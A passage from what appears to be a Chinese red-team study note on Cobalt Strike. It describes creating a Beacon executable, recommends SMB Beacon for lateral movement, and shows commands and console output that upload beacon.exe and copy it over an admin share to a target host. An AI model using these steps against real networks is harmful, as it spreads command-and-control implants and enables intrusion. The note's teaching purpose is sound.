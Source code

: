 ```yaml
---
title: 【CS学习笔记】19、代码执行的方式
date: 2020-04-19 15:06:37
id: 200419-150637
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs19-2.png
summary: 在内网中进行横向移动的一些笔记
tags:
- Cobalt Strike
- 学习笔记
- 红队
categories:
- CS 学习笔记
---
```


# 0x00 前言

实现代码执行的四个步骤：

1、与目标建立信任关系

2、复制可执行文件到目标上

3、在目标上运行可执行文件

4、实现对目标的控制

以上是根据视频教程中直译的结果，个人感觉其实这一节叫`横向移动的方法`更为合适。

# 0x01 创建可执行文件

创建可执行文件可以在 Cobalt Strike 的 `Attack -> Packages -> Windows Executable(s)` 处进行创建。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs19-1.png)

如果用于内网中的横向移动，那么强烈建议使用 SMB Beacon，SMB Beacon 就是为了内网横向扩展渗透而设计的。

# 0x02 上传可执行文件

首先使用 Cobalt Strike 上的 `upload` 功能上传文件，接着复制文件到目标主机的其他位置。

```powershell
shell copy file.exe \\host\C$\Windows\Temp
```

```powershell
beacon> upload /root/beacon.exe
[*] Tasked beacon to upload /root/Desktop/beacon.exe as beacon.exe
[+] host called home, sent: 289302 bytes

beacon> shell copy beacon.exe \\WinTest\C$\Windows\Temp
[*] Tasked beacon to run: copy beacon.exe \\WinTest\C$\Windows\Temp
[+] host called home, sent: 72 bytes
[+] received output:
已复制         1 个文件。
```
